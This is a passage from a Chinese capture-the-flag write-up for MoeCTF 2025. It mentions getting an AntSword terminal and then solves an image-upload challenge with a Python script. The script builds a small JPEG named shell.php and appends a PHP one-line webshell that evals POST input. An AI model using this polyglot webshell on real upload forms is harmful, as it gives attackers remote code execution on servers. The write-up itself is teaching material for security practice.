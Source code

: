 配置后测试链接无误，得到蚁剑终端，获取环境变量，搞定

![image.png](./moectf2025wp/image_13.png)

---

## [图片马] 13 第十三章 通幽关·灵纹诡影

本题考图片马 [https://blog.csdn.net/weixin_42789937/article/details/128268458](https://blog.csdn.net/weixin_42789937/article/details/128268458)

由于未对拓展名做出要求，我们生成 .php 后缀的符合要求的图片，附加上一句话木马即可

`FF D8 FF` 是 JPEG 文件格式的“魔术数字”或文件签名的一部分,不用刻意去管。

```python
# Create a tiny valid JPEG and embed a PHP webshell both as a JPEG comment and appended to the end.

from PIL import Image
from pathlib import Path
out_path = Path("shell.php")

# 1) Make a tiny JPEG
img = Image.new("RGB", (16, 16), (123, 200, 50))
php_payload = b'<?php @eval($_POST[\'cmd\']);?>'

img.save(out_path, format="JPEG", quality=80)

# 2) Append the same payload to the end of the file (survives most image operations)
with open(out_path, "ab") as f:
    f.write(b"\n")
    f.write(php_payload)
    f.write(b"\n")

```
